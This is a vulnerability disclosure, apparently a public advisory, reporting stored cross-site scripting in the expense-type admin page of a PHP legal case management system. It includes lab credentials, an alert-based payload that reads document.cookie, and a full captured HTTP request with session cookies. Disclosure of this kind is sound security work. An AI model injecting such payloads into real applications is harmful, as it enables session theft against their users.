 ## Legal Case Management System

## XSS on `/admin/expense-type`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/expense-type
```

The parameter `name` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/expense-type HTTP/1.1
Host: 192.168.150.131
Content-Length: 411
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9vkEfxewu5x2mwFG
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/expense-type
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InJZWUJDQVg2aUJDb0JNRmZuRWFTdkE9PSIsInZhbHVlIjoiOVVTZGtCYmdBZnVidVpMU1RGcFRITjBqTXk1b3pHc3lnZUtYVHVYdWNhMkg4ejZ3dE94S2d5WkNWOVwvaWxVa2kiLCJtYWMiOiI0Y2U5NmExODczNGQxMWU2ZDU5Y2E1NzFjZmZjOTMwOWExMzNiNDRkMmNiNjU1ZDBjYTU3ZTVmMDQxNDFiMTE1In0%3D; test_session=eyJpdiI6IjVOd3lMbEplSFhSZytaSXZScDN3Y1E9PSIsInZhbHVlIjoiWWQwVWNPYzBxU09qdWlpaVNxRjBCYThzejF4U2FENGhIQzJVMkVtV09RNlFJdVZSYjBXaVFIZWZsVUdIUk9UTyIsIm1hYyI6IjIzMTYzZWJiNzA3NmE0OWNiNGFkMjhiOTU5MWYwZTg0YTM4MDIzMjkxOWE1MDkwOTFlM2NmMzFmNjM3NjMxMmQifQ%3D%3D
Connection: close

------WebKitFormBoundary9vkEfxewu5x2mwFG
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundary9vkEfxewu5x2mwFG
Content-Disposition: form-data; name="name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary9vkEfxewu5x2mwFG
Content-Disposition: form-data; name="description"

2
------WebKitFormBoundary9vkEfxewu5x2mwFG--

```

### Screenshot

![image-20240509195545571](./screenshot/image-20240509195545571.png)
